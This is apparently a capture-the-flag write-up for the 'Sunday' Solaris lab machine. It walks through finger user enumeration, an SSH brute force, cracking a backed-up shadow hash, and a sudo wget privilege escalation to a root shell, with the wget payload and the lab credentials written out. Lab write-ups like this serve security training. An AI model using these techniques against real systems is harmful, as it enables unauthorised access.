 # Sunday

## Machine Info

![Sunday](./Sunday.assets/Sunday.png)

## Recon

- nmap

```
PORT      STATE SERVICE VERSION
79/tcp    open  finger?
| fingerprint-strings:
|   GenericLines:
|     No one logged on
|   GetRequest:
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|   HTTPOptions:
|     Login Name TTY Idle When Where
|     HTTP/1.0 ???
|     OPTIONS ???
|   Help:
|     Login Name TTY Idle When Where
|     HELP ???
|   RTSPRequest:
|     Login Name TTY Idle When Where
|     OPTIONS ???
|     RTSP/1.0 ???
|   SSLSessionReq, TerminalServerCookie:
|_    Login Name TTY Idle When Where
111/tcp   open  rpcbind 2-4 (RPC #100000)
515/tcp   open  printer
6787/tcp  open  http    Apache httpd
|_http-server-header: Apache
22022/tcp open  ssh     OpenSSH 8.4 (protocol 2.0)
| ssh-hostkey:
|_  256 da:2a:6c:fa:6b:b1:ea:16:1d:a6:54:a1:0b:2b:ee:48 (ED25519)
```

- OS: Solaris

## Foothold

### 79 finger enumeration

- manual enum

```bash
$ finger root@10.10.10.76
Login       Name               TTY         Idle    When    Where
root     Super-User            ssh          <Dec  7 01:27> 10.10.14.46
```

- script enum: pentestmonkey perl script, metasploit

![image-20231218012823053](./Sunday.assets/image-20231218012823053.png)

![image-20231218012828628](./Sunday.assets/image-20231218012828628.png)

- meaningfull users: root, sammy, sunny

### ssh brute force

- no more attack vector, try ssh brute force three users

![image-20231218013242679](./Sunday.assets/image-20231218013242679.png)

- cred: **sunny:sunday**

![image-20231218013303492](./Sunday.assets/image-20231218013303492.png)

## Privilege Escalation

### sunny -> sammy

- sudo -l -> command -> nothing more

![image-20231218013414533](./Sunday.assets/image-20231218013414533.png)

- backup file found, backup **shadow** found

![image-20231218013433270](./Sunday.assets/image-20231218013433270.png)

- crack hash

![image-20231218013444838](./Sunday.assets/image-20231218013444838.png)

- cred: **sammy:cooldude!**

### sammy -> root

- `sudo -l` -> `wget` ([wget | GTFOBins](https://gtfobins.github.io/gtfobins/wget/#sudo))

```bash
TF=$(mktemp)
chmod +x $TF
echo -e '#!/bin/sh\n/bin/sh 1>&0' >$TF
sudo wget --use-askpass=$TF 0
```

![image-20231218013538945](./Sunday.assets/image-20231218013538945.png)

## Exploit Chain

finger username enum -> ssh brute force -> backup shadow found -> sammy shell -> sudo -l -> wget -> root shell
